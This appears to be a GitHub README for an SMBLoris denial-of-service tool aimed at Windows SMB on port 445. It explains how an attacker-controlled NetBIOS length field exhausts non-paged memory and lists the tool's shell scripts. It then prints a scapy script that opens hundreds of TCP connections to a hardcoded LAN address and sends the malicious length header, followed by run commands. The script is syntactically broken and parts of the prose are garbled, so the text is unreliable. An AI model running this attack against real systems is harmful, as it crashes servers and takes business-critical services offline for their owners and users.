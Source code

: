 # what IS the Smb !! 
Me sharing files remotely by Protocol SMBv1 Or SMBv2 SMBv3 
-------------------------
vulnerable On Next in Text from i,am 
The vulnerability is in all modern versions of Windows, at least from Windows 2000 through Windows 10. Systems are still vulnerable even if all versions of SMBv1 SMBv2 SMBv3 are disabled

It is computationally inexpensive for an attacker to cause large memory allocations and enormous amounts of wasted CPU cycles†, rendering vulnerable machines completely unusable, making business-critical services (such as web and mail servers) unavailable, and even causing the entire operating system to crash !!
''''''''''
And Windows immediately commits in memory a number of bytes determined by the attacker-controlled Length field, which is 217 for a max of 131,072 bytes (128 KiB). This memory is in the "non-paged pool" (physical RAM) which cannot be swapped out to disk, making the denial of service even more effective. CPU and memory resources are effectively lost for as long as the connection is sustained

------------------------------------------------------------------------------------------------------||
------------------------------------------------------------------------------------------------------||

SMBLoris works over IPv4 and IPv6, and acquiring multiple IPs on a LAN can amplify the attack. The amount of machines required to perform a distributed denial of service (DDoS) attack against more powerful servers is also significantly reduced.


# But by me files
1 rest.sh 

2 run.sh  

3 smb3.py 

Works only on Kali version 2 #
Or
SMBLoris.c 

Normal Works on All systems Linux !! Redhat kali And And And And Etc!!

------------------------------------------------------------------------------------------------------||
------------------------------------------------------------------------------------------------------||

1 >_  Now we use smb3.py 

2 >_ Now we go to run rest.sh

![screenshot from 2017-08-09 19-19-12](https://user-images.githubusercontent.com/25440152/29142117-de3c8ec2-7d1e-11e7-8144-20261cf78916.png)
# Next >_ let's go To arrange
Edit Code file smb3.py 
```
from scapy.all import
import sys

    p0 = int(sys.argv[1])

    conf.L3socket
    conf.L3socket=L3RawSocket

    i = IP()
    i.dst = "192.168.1.4"
    t = TCP()
    t.dport = 445

    for p in range(p0, p0+700):
      print p
      t.sport = p
      t.flags = "S"

      r = sr1(i/t)
      rt = r[TCP]
      t.ack = rt.seq + 1
      t.seq = rt.ack
      t.flags = "A"
      sbss = '\x00\x01\xff\xff'
      send(i/t/sbss)

------------------------------------------------------------------------------------------------------||
------------------------------------------------------------------------------------------------------||
! >_  let's go To Run run.sh After we have arranged file smb3.py 
```
root@kali:~/Desktop# chmod +x run.sh

root@kali:~/Desktop#./run.sh
